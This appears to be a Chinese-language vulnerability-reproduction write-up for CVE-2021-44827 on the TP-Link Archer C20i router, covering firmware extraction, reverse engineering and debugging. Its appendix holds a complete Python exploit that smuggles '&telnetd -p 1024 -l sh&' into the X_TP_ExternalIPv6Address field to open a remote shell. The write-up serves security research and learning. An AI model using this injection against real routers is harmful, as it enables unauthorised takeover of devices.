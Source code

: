 ## 漏洞编号

CVE-2021-44827

## 固件下载地址

https://www.tp-link.com/en/support/download/archer-c20i/#Firmware

## 漏洞分析调试

### 固件提取

`binwalk -Me Archer_C20iv1_0.9.1_4.0_up_boot\(160518\)_2016-05-18_09.51.09.bin` 

![image-20220414221020537](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414221020537.png)

很顺利，可以解开

### 漏洞点

查看漏洞通告里的描述

![image-20220414222154961](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414222154961.png)

漏油器文件系统如下：

![image-20220414222406065](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414222406065.png)

既然是命令注入漏洞，也没有特殊说明，那应该是在web界面

使用firmwalk工具检索一下文件系统里的关键信息和敏感信息，这个工具省去了很多人力去信息搜集，当然有时候不是那么全面，可以自己稍加定制一下，例如在学习过程中遇到了其他的web服务器程序，也可以添加到工具目录下/data文件夹的webservers文件字段中等等

`./firmwalker.sh /home/iot/tools/FirmAE/firmwares/_Archer_C20iv1_0.9.1_4.0_up_boot160518_2016-05-18_09.51.09.bin.extracted/squashfs-root ./tplink_result`

![image-20220414223647637](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414223647637.png)

![image-20220414224056809](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414224056809.png)

web服务器文件在./usr/bin/httpd，拖进IDA分析一波，一般嵌入式设备是通过cgi传递输入到后端，搜索cgi字符串

![image-20220414224604169](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414224604169.png)

发现它是通过cgi后面加上数字进行不同服务的调用的，搜索漏洞公告里的字符串没有找到：X_TP_ExternalIPv6Address

在路由器文件系统根目录下搜索，发现在tdpd和tmpd中匹配到了相关的字符串

`grep -r "X_TP_ExternalIPv6Address"`

![image-20220414225316264](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414225316264.png)

老规矩，拖进IDA pro分析查找

![image-20220414225532312](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414225532312.png)

![image-20220414230021456](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414230021456.png)



根目录下搜索处理危险参数的函数：`grep -r rdp_setObj `

![image-20220414230250552](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414230250552.png)

函数应该定义在动态链接库lib/libcmm.so中

### 调试环境搭建

使用debug模式运行固件，2进入命令行shell，实际上就是firmadyne提供的telnetd服务，发现并没有wget等命令，因为是用firmae模拟的固件，所以firmadyne下的busybox有wget命令，传入gdbserver

![image-20220414235233151](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220414235233151.png)



![image-20220417165805731](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220417165805731.png)

此时符合目标系统架构的gdbserver传入文件系统

### 调试

查看http进程号

![image-20220417170047618](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220417170047618.png)

`./gdbserver-7.12-mipsel-mips32rel2-v1-sysv :9999 --attach 614`

![image-20220417170203171](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220417170203171.png)

```
echo "source /home/iot/tools/gdb_plugains/gef/gef.py" > ~/.gdbinit

gdb-multiarch -q ./usr/bin/httpd

set architecture mips

set endian little

set solib-search-path lib/

target remote 192.168.0.1:9999
```



![image-20220417234232389](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220417234232389.png)

里我们可以先在rdp_getObj，rdp_setObj设置相关断点，这些函数都位于动态链接库中，并且负责数据的获取和配置操作，也就是会对上述的payload_template中的数据进行处理

```
b rdp_getObj

b rdp_setObj

info b
```

设置断点信息

![image-20220417234259384](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220417234259384.png)

使用EXP打过去，exp在附录

![image-20220417234433325](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220417234433325.png)



登录的请求直接c继续，抓取后边的post请求分布执行

按s分布执行，观察运行exp的窗口，若成功登录telnet 证明执行完成，在0x403eb8处执行成功

![image-20220417235000606](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220417235000606.png)



此漏洞是由于设置wan的时候触发命令注入，所以我们可以在动态链接库libcmm.so中查找，看到果然有

![image-20220418001050933](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220418001050933.png)

在`util_execSystem`下断点，进行调试，传入的命令是可以被拼接的

![image-20220418004703550](TPLINK_Archer_c20i(EU)RCE复现.assets/image-20220418004703550.png)





## 总结

已知漏洞，不知道触发点，采用动态调试+静态分析的方式复现，  对齐动态调试。。



## 附录

### exp

```
import requests
import base64
import os
import time
ip = input("请输入要检测的IP地址：")
username = input("请输入管理员账户：")
password = input("请输入管理员密码：")
tplink_url = "http://" + ip + "/cgi?2&2"
userinfo = username + ":" + password
cookie = "Authorization=Basic " + base64.b64encode(userinfo.encode()).decode("ascii")
referer = "http://" + ip +"/mainFrame.htm"
cmd = "telnet " + ip + " 1024"
payload_template = """[WAN_ETH_INTF#1,0,0,0,0,0#0,0,0,0,0,0]0,1\r
X_TP_lastUsedIntf=ipoe_eth3_s\r
[WAN_IP_CONN#1,1,1,0,0,0#0,0,0,0,0,0]1,21\r
externalIPAddress=192.168.9.222\r
subnetMask=255.255.255.0\r
defaultGateway=192.168.9.2\r
NATEnabled=1\r
X_TP_FullconeNATEnabled=0\r
X_TP_FirewallEnabled=1\r
X_TP_IGMPProxyEnabled=1\r
X_TP_IGMPForceVersion=0\r
maxMTUSize=1500\r
DNSOverrideAllowed=1\r
DNSServers=192.168.9.3,0.0.0.0\r
X_TP_IPv4Enabled=1\r
X_TP_IPv6Enabled=0\r
X_TP_IPv6AddressingType=Static\r
X_TP_ExternalIPv6Address=commond\r
X_TP_PrefixLength=64\r
X_TP_DefaultIPv6Gateway=::\r
X_TP_IPv6DNSOverrideAllowed=0\r
X_TP_IPv6DNSServers=::,::\r
X_TP_MLDProxyEnabled=0\r
enable=1\r
"""
payload = payload_template.replace("commond", "::")
res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})
time.sleep(5)
print("===========")
payload = payload_template.replace("commond", "&telnetd -p 1024 -l sh&")
res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})
os.system(cmd)
```





















